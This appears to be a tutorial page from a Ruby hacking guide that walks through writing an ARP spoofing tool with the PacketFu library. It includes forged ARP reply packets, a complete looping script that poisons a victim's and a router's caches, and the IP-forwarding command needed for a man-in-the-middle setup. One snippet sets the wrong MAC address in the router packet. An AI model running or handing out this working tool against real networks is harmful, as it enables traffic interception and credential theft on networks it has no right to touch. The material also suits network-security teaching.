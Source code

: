 # ARP Spoofing
As you know, ARP Spoofing attack in the core of MiTM attacks. In this part we'll know how to wirte simple and effective arp spoofer tool to use it in later spoofing attacks.

#### Scenario
We have 3 machines in this senario as showen below.
```
             |Attacker|
                 |
                 ٧
|Victim| -----------------> |Router| ---> Internet
```
Here the list of IP and MAC addresses of each of theme in the follwing table[^1]

| Host/Info |   IP Address  |    MAC Address    |
|-----------|:-------------:|:-----------------:|
| Attacker  | 192.168.0.100 | 3C:77:E6:68:66:E9 |
| Victim    | 192.168.0.21  | 00:0C:29:38:1D:61 |
| Router    | 192.168.0.1   | 00:50:7F:E6:96:20 |

To know our/attacker's interface information

```ruby
info = PacketFu::Utils.whoami?(:iface => "wlan0")
```
returns a hash
```
{:iface=>"wlan0",
 :pcapfile=>"/tmp/out.pcap",
 :eth_saddr=>"3c:77:e6:68:66:e9",
 :eth_src=>"<w\xE6hf\xE9",
 :ip_saddr=>"192.168.0.13",
 :ip_src=>3232235533,
 :ip_src_bin=>"\xC0\xA8\x00\r",
 :eth_dst=>"\x00P\x7F\xE6\x96 ",
 :eth_daddr=>"00:50:7f:e6:96:20"}
```
So you can extract these information like any hash `info[:iface]`, `info[:ip_saddr]`, `info[:eth_saddr]`, etc..


**Building victim's ARP packet**
```ruby
# Build Ethernet header
arp_packet_victim = PacketFu::ARPPacket.new
arp_packet_victim.eth_saddr = "3C:77:E6:68:66:E9"       # our MAC address
arp_packet_victim.eth_daddr = "00:0C:29:38:1D:61"       # the victim's MAC address
# Build ARP Packet
arp_packet_victim.arp_saddr_mac = "3C:77:E6:68:66:E9"   # our MAC address
arp_packet_victim.arp_daddr_mac = "00:0C:29:38:1D:61"   # the victim's MAC address
arp_packet_victim.arp_saddr_ip = "192.168.0.1"          # the router's IP
arp_packet_victim.arp_daddr_ip = "192.168.0.21"         # the victim's IP
arp_packet_victim.arp_opcode = 2                        # arp code 2 == ARP reply
```

**Building router packet**
```ruby
# Build Ethernet header
arp_packet_router = PacketFu::ARPPacket.new
arp_packet_router.eth_saddr = "3C:77:E6:68:66:E9"       # our MAC address
arp_packet_router.eth_daddr = "00:0C:29:38:1D:61"       # the router's MAC address
# Build ARP Packet
arp_packet_router.arp_saddr_mac = "3C:77:E6:68:66:E9"   # our MAC address
arp_packet_router.arp_daddr_mac = "00:50:7F:E6:96:20"   # the router's MAC address
arp_packet_router.arp_saddr_ip = "192.168.0.21"         # the victim's IP
arp_packet_router.arp_daddr_ip = "192.168.0.1"          # the router's IP
arp_packet_router.arp_opcode = 2                        # arp code 2 == ARP reply

```

**Run ARP Spoofing attack**
```ruby
# Send our packet through the wire
while true
    sleep 1
    puts "[+] Sending ARP packet to victim: #{arp_packet_victim.arp_daddr_ip}"
    arp_packet_victim.to_w(info[:iface])
    puts "[+] Sending ARP packet to router: #{arp_packet_router.arp_daddr_ip}"
    arp_packet_router.to_w(info[:iface])
end
```
Source[^2]

Wrapping all together and run as `root`

```ruby
#!/usr/bin/env ruby
#
# ARP Spoof Basic script
#
require 'packetfu'

attacker_mac = "3C:77:E6:68:66:E9"
victim_ip    = "192.168.0.21"
victim_mac   = "00:0C:29:38:1D:61"
router_ip    = "192.168.0.1"
router_mac   = "00:50:7F:E6:96:20"

info = PacketFu::Utils.whoami?(:iface => "wlan0")
#
# Victim
#
# Build Ethernet header
arp_packet_victim = PacketFu::ARPPacket.new
arp_packet_victim.eth_saddr = attacker_mac        # attacker MAC address
arp_packet_victim.eth_daddr = victim_mac          # the victim's MAC address
# Build ARP Packet
arp_packet_victim.arp_saddr_mac = attacker_mac    # attacker MAC address
arp_packet_victim.arp_daddr_mac = victim_mac      # the victim's MAC address
arp_packet_victim.arp_saddr_ip = router_ip        # the router's IP
arp_packet_victim.arp_daddr_ip = victim_ip        # the victim's IP
arp_packet_victim.arp_opcode = 2                  # arp code 2 == ARP reply

#
# Router
#
# Build Ethernet header
arp_packet_router = PacketFu::ARPPacket.new
arp_packet_router.eth_saddr = attacker_mac        # attacker MAC address
arp_packet_router.eth_daddr = router_mac          # the router's MAC address
# Build ARP Packet
arp_packet_router.arp_saddr_mac = attacker_mac    # attacker MAC address
arp_packet_router.arp_daddr_mac = router_mac      # the router's MAC address
arp_packet_router.arp_saddr_ip = victim_ip        # the victim's IP
arp_packet_router.arp_daddr_ip = router_ip        # the router's IP
arp_packet_router.arp_opcode = 2                  # arp code 2 == ARP reply

while true
    sleep 1
    puts "[+] Sending ARP packet to victim: #{arp_packet_victim.arp_daddr_ip}"
    arp_packet_victim.to_w(info[:iface])
    puts "[+] Sending ARP packet to router: #{arp_packet_router.arp_daddr_ip}"
    arp_packet_router.to_w(info[:iface])
end

```

> Note: Don't forget to enable packet forwarding on your system to allow victim to browse internet.

> `echo "1" > /proc/sys/net/ipv4/ip_forward `

Returns, time to wiresharking ;)
```
[+] Sending ARP packet to victim: 192.168.0.21
[+] Sending ARP packet to router: 192.168.0.1
.
.
.
[+] Sending ARP packet to victim: 192.168.0.21
[+] Sending ARP packet to router: 192.168.0.1
[+] Sending ARP packet to victim: 192.168.0.21
[+] Sending ARP packet to router: 192.168.0.1
```



<br><br><br>
---
[^1]: Creat table the easy way - [Table Generator](http://www.tablesgenerator.com/markdown_tables)

[^2]: Source: [DNS Spoofing Using PacketFu](http://crushbeercrushcode.org/2012/10/ruby-dns-spoofing-using-packetfu/)
